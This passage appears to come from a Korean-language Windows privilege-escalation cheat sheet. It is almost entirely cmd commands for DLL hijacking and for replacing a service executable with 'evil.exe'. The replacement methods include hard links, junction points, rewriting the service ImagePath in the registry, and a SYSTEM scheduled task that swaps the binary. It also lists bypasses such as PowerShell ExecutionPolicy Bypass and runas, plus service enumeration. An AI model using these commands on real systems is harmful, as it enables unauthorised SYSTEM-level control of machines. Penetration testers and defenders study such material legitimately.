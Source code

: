 ```cmd
:: 모든 프로세스에 DLL 주입
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs

:: 5. 환경 변수 PATH DLL 하이재킹
:: PATH 환경 변수의 첫 번째 디렉토리에 악성 DLL 배치
echo %PATH%
```

### ⚡ 서비스 재시작 없이 익스플로잇

```cmd
:: 1. 서비스 중지 없이 실행 파일 교체
:: 파일이 사용 중일 때 교체 방법

:: 2. 심볼릭 링크 공격
mklink /H evil.exe "C:\Path\To\Service.exe"

:: 3. Junction Point 공격
mklink /J "C:\Program Files\Vulnerable" "C:\Windows\Temp"

:: 4. 하드링크 공격
fsutil hardlink create "C:\Windows\Temp\service.exe" "C:\Path\To\Original\Service.exe"

:: 5. 레지스트리 직접 수정 (재부팅 후 적용)
reg add "HKLM\SYSTEM\CurrentControlSet\Services\VulnerableService" /v ImagePath /d "C:\Windows\Temp\evil.exe" /f

:: 6. 스케줄된 작업을 통한 우회
schtasks /create /tn "ServiceRestart" /tr "sc stop VulnerableService & copy evil.exe service.exe & sc start VulnerableService" /sc onstart /ru system

:: 7. WMI 이벤트를 통한 자동 실행
:: 서비스 상태 변화를 모니터링하여 자동 익스플로잇
```

### 🔧 권한 확인 우회 기법

```cmd
:: 1. 다른 사용자 컨텍스트에서 권한 확인
runas /user:Administrator "accesschk.exe -uwcqv %USERNAME% *"

:: 2. PowerShell 실행 정책 우회
powershell -ExecutionPolicy Bypass -Command "Get-Service"

:: 3. WMIC을 통한 서비스 정보 수집
wmic service where "name='VulnerableService'" get *

:: 4. 레지스트리 직접 접근
reg query "HKLM\SYSTEM\CurrentControlSet\Services\VulnerableService"

:: 5. 프로세스 덤프를 통한 정보 획득
tasklist /m | findstr "VulnerableService"

:: 6. 이벤트 로그에서 서비스 정보
wevtutil qe System /q:"*[System[Provider[@Name='Service Control Manager']]]" /f:text

:: 7. 네트워크를 통한 원격 서비스 열거 (도메인 환경)
sc \\target-machine query
```
